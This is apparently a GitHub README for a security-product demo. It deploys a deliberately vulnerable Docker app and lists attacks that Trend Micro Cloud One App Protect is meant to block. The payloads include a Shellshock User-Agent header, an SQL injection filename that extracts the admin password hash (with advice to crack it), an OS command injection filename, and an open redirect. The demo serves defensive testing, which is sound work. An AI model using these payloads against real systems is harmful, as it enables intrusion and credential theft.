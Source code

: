 # Cloud One App Protect Demo
## Requirements
Computer running docker;
Cloud One App Protect Account

## Instructions to Deploy the Vulnerable Application (It can be deployed on AWS ECS as well)
In the computer where you are running Docker;

docker run --rm -d -p 80:8000 --name demo-cloudone-appprotect -e TREND_AP_KEY=?? -e TREND_AP_SECRET=??? andrefernandes86/demo-cloudone-appprotect:latest

## Testing the Vulnerable Application
http://target-ip/

## Checking the Cloud One Management Console (Policies and Logs)
https://cloudone.trendmicro.com

## Attacking the Vulnerable Application
##### Open Redirect Vulnerability
###### http://target-ip/taskManager/logout?redirect=http://www.cnn.com 

##### Malicious Payload (Intrusion Prevention)
###### curl -H "User-Agent: () { :; }; /bin/eject" http://target-ip 

##### Remote Command Execution
###### 1. Go to http://127.0.0.1:8000/ and click "Login"
###### 2. Login to the application
###### user / user123
###### 3. Click the link for the "demo project".
###### 4. Click the "Add files" link.
###### 5. Pick any file from your local computer, and use the following payload for the filename:
###### '||(SELECT password FROM auth_user WHERE username='admin')||'

Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

https://md5decrypt.net/en/

##### OS Command Injection:
###### In the same place as in for the attack above ("My Projects" --> project you created, add files). Also pick any file from your local computer, but for the payload use:
###### An innocent sleep statement (to demonstrate that we can run any command):
###### some_file_name; sleep 1m

You'll notice that (without Cloud One Application Security), the browser will "sleep" for 1 minute.
.
